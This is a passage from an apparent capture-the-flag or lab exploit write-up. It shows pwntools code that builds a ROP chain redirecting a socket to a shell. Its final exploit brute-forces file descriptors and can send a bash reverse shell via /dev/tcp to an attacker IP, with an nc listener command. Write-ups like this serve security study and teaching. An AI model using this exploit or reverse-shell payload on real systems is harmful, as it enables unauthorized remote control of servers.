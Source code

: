 #### Ropchain for popping a shell
With the libc base address leaked, we use a simple ropchain to redirect stdin, stdout and stderr to the socket and then call system(/bin/sh).
```python
def genRopchain(fd):
    rop = ROP([binary,libc])

    rop.dup2(fd, 0)
    rop.dup2(fd, 1)
    rop.dup2(fd, 2)

    rop.system(next(libc.search("/bin/sh")))
    return bytes(rop)
```
Pwntools luckily can do all the heavy lifting and gives us an easy way to redirect stdin, stdout and stderr to the socket fd and calls system with /bin/sh.

```python
def sendPayload(fd):
    io = start()
    rop = genRopchain(fd)
    io.sendline(genReq(rop))
    return io
```
Now we just need to call the genRopchain function and send the ropchain to the server.

#### Final exploit
```python
def exploit():
    try:
        for fd in range(3, 10):
            if leak(fd):
                log.success("Found fd: %d" % fd)
                shell = sendPayload(fd)
                clear(2)
                if args.REV:
                    ip = get_ip_address("tun0")
                    log.info("Setup your listener! [nc -lvnp 443]")
                    while True:
                        done = input("Send payload? [Y/n] ").rstrip()
                        if done in ["Y","y",""]:
                            clear()
                            shell.sendline("bash -c 'bash -i >& /dev/tcp/{IP}/443 0>&1'".format(IP=ip))
                            log.success("Reverse-shell payload send!")
                            shell.close()
                            clear()
                            break
                        clear()
                    return True
                else:
                    shell.sendline("id")
                    shell.interactive()
                    return True
    except Exception as ex:
        log.warning(ex)
        return False
```
All fds from 3 to 10 are brute forced. If the fd is found, the final payload is send using sendPayload, which either gets us a shell or a reverse-shell, depending on user-input.
